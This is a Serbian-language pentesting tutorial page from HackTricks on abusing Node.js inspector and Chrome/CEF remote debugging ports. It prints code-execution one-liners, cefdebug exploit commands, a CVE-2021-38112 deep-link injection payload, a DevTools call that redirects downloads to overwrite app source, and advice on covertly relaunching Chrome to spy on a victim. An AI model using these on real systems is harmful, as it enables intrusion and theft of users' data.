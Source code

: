 # Zloupotreba Node inspektora/CEF debugovanja

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Od dokumentacije](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): Kada se pokrene sa `--inspect` prekidačem, Node.js proces osluškuje za debug klijenta. Podrazumevano, osluškuje na hostu i portu **`127.0.0.1:9229`**. Svaki proces takođe dobija **jedinstveni** **UUID**.

Inspektor klijenti moraju znati i specificirati adresu hosta, port i UUID za povezivanje. Ceo URL će izgledati nešto kao `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`.

{% hint style="warning" %}
Pošto **debuger ima pun pristup Node.js izvršnom okruženju**, zlonamerni akter koji može da se poveže na ovaj port može izvršiti proizvoljan kod u ime Node.js procesa (**potencijalno eskalacija privilegija**).
{% endhint %}

Postoji nekoliko načina za pokretanje inspektora:
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
Kada pokrenete proces koji se inspicira, pojaviće se nešto slično ovome:
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
Procesi zasnovani na **CEF** (**Chromium Embedded Framework**) poput potrebe da koriste parametar: `--remote-debugging-port=9222` da bi otvorili **debugger** (zaštite od SSRF ostaju vrlo slične). Međutim, umesto dodeljivanja **NodeJS** **debug** sesije, oni će komunicirati sa pregledačem koristeći [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/), ovo je interfejs za kontrolu pregledača, ali nema direktnog RCE.

Kada pokrenete pregledač u režimu za debagovanje, nešto slično ovome će se pojaviti:
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### Preglednici, WebSockets i politika istog porekla <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

Veb-sajtovi otvoreni u veb-pregledaču mogu da vrše WebSocket i HTTP zahteve u okviru bezbednosnog modela pregledača. **Početna HTTP veza** je neophodna da bi se **dobio jedinstveni ID sesije za debager**. **Politika istog porekla** **sprečava** veb-sajtove da mogu da naprave **ovu HTTP vezu**. Radi dodatne bezbednosti protiv [**DNS preusmeravanja napada**](https://en.wikipedia.org/wiki/DNS\_rebinding)**,** Node.js proverava da li **'Host' zaglavlja** za vezu precizno navode **IP adresu** ili **`localhost`** ili **`localhost6`**.

{% hint style="info" %}
Ove **bezbednosne mere sprečavaju iskorišćavanje inspektora** za izvršavanje koda samo slanjem HTTP zahteva (što bi se moglo uraditi iskorišćavanjem SSRF ranjivosti).
{% endhint %}

### Pokretanje inspektora u pokrenutim procesima

Možete poslati **signal SIGUSR1** pokrenutom nodejs procesu da bi se **pokrenuo inspektor** na podrazumevanom portu. Međutim, imajte na umu da je potrebno imati dovoljno privilegija, pa ovo može omogućiti pristup **privilegovanim informacijama unutar procesa** ali ne i direktnu eskalaciju privilegija.
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
Ovo je korisno u kontejnerima jer **gašenje procesa i pokretanje novog** sa `--inspect` nije **opcija** jer će **kontejner** biti **ubijen** sa procesom.
{% endhint %}

### Povezivanje sa inspektorom/debugerom

Da biste se povezali sa **Chromium-based browserom**, možete pristupiti URL-ovima `chrome://inspect` ili `edge://inspect` za Chrome odnosno Edge. Klikom na dugme Configure, treba se osigurati da su **ciljni host i port** ispravno navedeni. Slika prikazuje primer Remote Code Execution (RCE):

![](<../../.gitbook/assets/image (674).png>)

Korišćenjem **komandne linije** možete se povezati sa debuggerom/inspektorom pomoću:
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
Alatka [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug), omogućava **pronalaženje inspektora** koji se izvršavaju lokalno i **ubacivanje koda** u njih.
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
Imajte na umu da **NodeJS RCE eksploatacije neće raditi** ako ste povezani sa pregledačem putem [**Chrome DevTools Protocola**](https://chromedevtools.github.io/devtools-protocol/) (treba da proverite API da biste pronašli zanimljive stvari koje možete s njim uraditi).
{% endhint %}

## RCE u NodeJS Debugger/Inspector-u

{% hint style="info" %}
Ako ste ovde došli tražeći kako da dobijete **RCE putem XSS u Electronu, molimo proverite ovu stranicu.**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

Neke uobičajene metode za dobijanje **RCE** kada možete **povezati** se na Node **inspektor** su korišćenje nečega poput (izgleda da ovo **neće raditi u vezi sa Chrome DevTools protokolom**):
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Chrome DevTools Protocol Payloads

Možete proveriti API ovde: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
U odeljku ću samo navesti zanimljive stvari koje sam pronašao da su ljudi koristili za iskorišćavanje ovog protokola.

### Ubacivanje parametara putem dubokih veza

U [**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) Rhino Security je otkrio da je aplikacija zasnovana na CEF **registrovala prilagođeni URI** u sistemu (workspaces://) koji je primao puni URI, a zatim **pokretao CEF zasnovanu aplikaciju** sa konfiguracijom koja je delimično konstruisana iz tog URI-ja.

Otkriveno je da su parametri URI-ja dekodirani URL-om i korišćeni za pokretanje osnovne CEF aplikacije, omogućavajući korisniku da **ubaci** zastavicu **`--gpu-launcher`** u **komandnoj liniji** i izvrši proizvoljne radnje.

Dakle, payload poput:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
### Prepisivanje fajlova

Promenite folder gde će **preuzeti fajlovi biti sačuvani** i preuzmite fajl da **prepiset** često korišćeni **izvorni kod** aplikacije sa vašim **zlonamernim kodom**.
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Webdriver RCE i ekstrakcija podataka

Prema ovom postu: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) moguće je dobiti RCE i ekstraktovati interne stranice iz therivera.

### Post-Eksploatacija

U stvarnom okruženju i **nakon kompromitovanja** korisnikovog računara koji koristi Chrome/Chromium bazirani pregledač, mogli biste pokrenuti Chrome proces sa **aktiviranim debagovanjem i proslediti port za debagovanje** kako biste mu pristupili. Na ovaj način ćete moći **inspekcijom pratiti sve što žrtva radi sa Chrome-om i ukrasti osetljive informacije**.

Neprimetan način je **završiti svaki Chrome proces** a zatim pozvati nešto poput
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## Reference

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA ČLANSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili **telegram grupi** ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
